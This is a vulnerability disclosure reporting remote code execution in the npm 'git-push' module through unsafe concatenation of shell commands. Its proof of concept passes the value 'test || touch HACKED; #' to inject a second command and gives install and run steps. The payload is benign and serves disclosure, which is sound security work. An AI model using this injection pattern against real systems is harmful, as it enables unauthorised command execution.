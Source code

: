 # :bug: Description

The `git-push` module is vulnerable against `RCE` due to `unsafe command concatenation` which is crafted using `user-inputs`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var push = require('git-push');
push('', {name:'test || touch HACKED; #'}, function() { console.log('Done!'); });

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i git-push # Install affected module
git init # Initialize current dir as *git*
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
